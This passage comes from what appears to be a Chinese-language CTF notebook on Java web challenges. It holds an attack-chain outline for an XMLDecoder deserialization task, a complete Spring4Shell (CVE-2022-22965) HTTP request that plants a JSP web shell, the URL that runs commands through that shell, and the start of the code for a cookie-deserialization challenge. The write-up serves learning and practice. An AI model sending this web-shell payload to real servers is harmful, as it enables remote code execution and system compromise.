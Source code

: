 ```http
</java>


------WebKitFormBoundaryxPRQbJFRE2whRMVh--
```

思路:前端注册限制绕过直接注册->存在任意文件读取->通过内联注释伪造admin用户->发现使用了`XMLDecoder`类,存在反序列化漏洞->上传文件覆盖原db.xml->注册一个用户触发
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230621235404.png)

### Spring Core RCE
#java/spring
[漏洞复现](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22965)

```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: node4.anna.nssctf.cn:28414
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

访问
`http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id`

---
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230619212827.png)
做不了一点

### [羊城杯 2020]a_piece_of_java
#jdbc_sql 
```java
//传参username,password,序列化后存储到cookie里
  @PostMapping({"/index"})
  public String index(@RequestParam("username") String username, @RequestParam("password") String password, HttpServletResponse response) {
    UserInfo userinfo = new UserInfo();
    userinfo.setUsername(username);
    userinfo.setPassword(password);
    Cookie cookie = new Cookie("data", serialize(userinfo));
    cookie.setMaxAge(2592000);
    response.addCookie(cookie);
    return "redirect:/hello";
  }
//反序列化cookie里的内容
  @GetMapping({"/hello"})
  public String hello(@CookieValue(value = "data", required = false) String cookieData, Model model) {
```